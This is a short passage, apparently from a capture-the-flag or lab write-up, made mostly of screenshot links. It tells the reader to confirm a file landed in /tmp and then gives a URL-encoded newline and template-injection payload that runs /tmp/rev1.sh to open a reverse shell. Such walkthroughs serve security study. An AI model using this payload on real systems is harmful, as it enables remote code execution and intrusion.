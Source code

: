 ![](./IMG/29.png)

> Check /tmp directory to confirm the file transfer success or not

![](./IMG/31.png)

>Execute the reverse shell 

```
sdf%0A<%25%3d%20`/bin/bash%20/tmp/rev1.sh`%20%25>
```

![](./IMG/30.png)
